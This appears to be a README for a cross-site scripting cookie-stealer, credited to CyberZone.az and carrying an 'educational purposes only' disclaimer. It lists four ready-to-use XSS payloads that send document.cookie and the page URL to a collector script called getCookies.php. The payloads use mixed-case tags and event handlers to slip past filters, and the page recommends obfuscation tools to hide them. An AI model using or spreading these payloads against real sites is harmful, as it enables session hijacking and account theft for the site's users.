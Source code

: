 <h2>For educational purposes only, use at your own responsibility.</h2>

<p>This script gets  all cookies, ip address and url from vulnerable site and stores it in data.txt.</p>

<p>Here same payload examples for usage.</p>

    <sCRiPt>new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;</sCRiPt>

    <svgonload=setTimeout(function(a){a=document.createElement(`img`);a.src=`https://localhost/getCookies.php?       u=${document.location.href}&c=${document.cookie}`;document.getElementsByTagName(`body`)[0].appendChild(a);},500);>

    <video autoplay onloadstart="new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;" src=x></video>

    <sCRiPt>new Image().src="https://localhost/getCookies.php?u="+document.location.href+"&c="+document.cookie;</sCRiPt>

<p>These examples in above is written for bypassing cross site origin policy in all browsers but you can use your own payload instead.</p>
<p>For encrypting your payload:</p>
<a href="https://obfuscator.io/" target="_blank">obfuscator.io</a></br>
<a href="http://www.jsfuck.com/" target="_blank">jsfuck.com</a>
</br></br>
From: <a href="https://cyberzone.az/">CyberZone.az</a>
